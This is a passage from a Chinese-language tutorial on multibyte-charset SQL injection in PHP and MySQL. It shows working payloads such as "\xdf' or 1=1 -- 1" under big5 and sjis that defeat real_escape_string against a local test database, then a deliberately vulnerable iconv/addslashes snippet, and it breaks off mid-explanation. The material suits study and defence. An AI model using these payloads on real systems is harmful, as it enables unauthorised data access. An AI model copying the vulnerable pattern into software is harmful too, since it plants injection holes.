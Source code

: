测试也是能成功的
```php
$ php -a
Interactive shell

php > $conn = mysqli_connect('172.17.0.2', 'root', 'root');
$conn->query("SET NAMES 'big5'");
$id = $conn->real_escape_string("\xdf' or 1=1 -- 1");
$ret = $conn->query("SELECT * FROM data.test_gbk WHERE id='$id';");
var_dump($ret->fetch_all());
array(7) {
  [0]=>
  array(2) {
    [0]=>
    string(1) "1"
    [1]=>
    string(4) "An"
  }
  [1]=>
  array(2) {
....

php > $conn = mysqli_connect('172.17.0.2', 'root', 'root');
$conn->query("SET NAMES 'sjis'");
$id = $conn->real_escape_string("\x97' or 1=1 -- 1");
$ret = $conn->query("SELECT * FROM data.test_gbk WHERE id='$id';");
var_dump($ret->fetch_all());
array(7) {
  [0]=>
  array(2) {
    [0]=>
    string(1) "1"
    [1]=>
    string(3) "?D"
  }
  [1]=>
  array(2) {
....
```

## 错误使用 iconv 导致的注入

最早出处应该是 https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html 发现, 文中给出了两种例子, 分别是 `iconv('utf-8', 'gbk', $input)` 和 `iconv('gbk', 'utf-8', $input)`  

先来看 `iconv('utf-8', 'gbk', $input)`,
在这种情况下, 与普通 gbk 注入不同, 不能设置 `$conn->query("SET NAMES 'gbk'");`. 而是要 `$conn->query("SET NAMES 'binary'");`, 因为我测试使用的是 docker, 默认是 latin1 字符集, 跟 binary 没有太大差别, 就不设置了.  
代码例子如下:
```php
$conn = mysqli_connect('172.17.0.2', 'root', 'root');
$id = iconv('utf-8', 'gbk', addslashes($_GET['id']));
$ret = $conn->query("SELECT * FROM data.test_gbk WHERE id='$id';");
var_dump($ret->fetch_all());
```
可以看到会将输入 `addslashes` 后 `iconv`, 这里能注入的原因恰好与上面相反, 这里 gbk 造成的结果是**吐**出来一个反斜杠而不是**吃**掉, 整个流程如下:
